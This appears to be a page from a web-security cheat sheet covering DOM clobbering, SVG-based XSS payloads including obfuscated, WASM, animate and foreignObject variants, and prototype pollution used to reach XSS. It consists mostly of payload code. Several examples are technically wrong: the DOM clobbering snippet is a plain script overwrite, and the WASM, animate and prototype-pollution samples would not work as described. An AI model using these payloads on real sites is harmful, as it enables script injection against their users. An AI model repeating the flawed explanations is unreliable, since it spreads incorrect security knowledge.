 
## Tips, Tricks, and Advanced Techniques

### DOM Clobbering

DOM clobbering abuses how JavaScript references DOM elements via their names. Attackers can create elements named after JavaScript methods to overwrite or "clobber" functionality.

```html
<form name="querySelector"></form>
<script>
  document.querySelector = function() { alert('Clobbered!'); };
</script>
```

### XSS in SVGs

SVGs are a rich source for executing XSS due to their support for inline JavaScript.

```html
<svg><script>alert(1)</script></svg>
```

Further obfuscation techniques within SVGs can evade filters:

```html
<svg><script>a<!>l<!>e<!>r<!>t(1)</script></svg>
```

**Advanced SVG XSS (2025):**

```html
<!-- SVG with WASM -->
<svg>
  <script>
    WebAssembly.instantiate(new Uint8Array([/* WASM bytecode */]))
      .then(m => m.instance.exports.alert(1));
  </script>
</svg>

<!-- SVG animation XSS -->
<svg>
  <animate attributeName="onbegin" values="alert(1)" begin="0s" dur="1s"/>
</svg>

<!-- SVG foreignObject exploitation -->
<svg><foreignObject><iframe src="javascript:alert(1)"></iframe></foreignObject></svg>
```

### Prototype Pollution to XSS - 2025

**Combining prototype pollution with XSS:**

```javascript
// Polluting Object prototype
Object.prototype.innerHTML = '<img src=x onerror=alert(1)>';

// Triggering via DOM manipulation
document.createElement('div').appendChild(document.createElement('span'));

// Polluting template properties
Object.prototype.template = '<script>alert(1)</script>';

// Framework-specific pollution
Object.prototype.constructor = {constructor: Function};
```
